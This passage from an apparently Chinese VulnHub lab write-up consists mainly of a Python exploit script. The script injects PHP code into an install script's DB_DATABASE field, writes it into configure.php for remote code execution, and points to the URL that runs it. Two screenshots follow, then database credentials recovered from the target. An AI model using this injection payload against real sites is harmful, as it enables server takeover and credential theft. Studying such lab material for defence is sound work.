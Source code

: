 ~~~python
data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

~~~

![image-20220824140152980](vulnhub靶场.assets/image-20220824140152980.png)

![image-20220824140855812](vulnhub靶场.assets/image-20220824140855812.png)

>   define('DB_SERVER_USERNAME', 'jack');
>   define('DB_SERVER_PASSWORD', 'yellow');
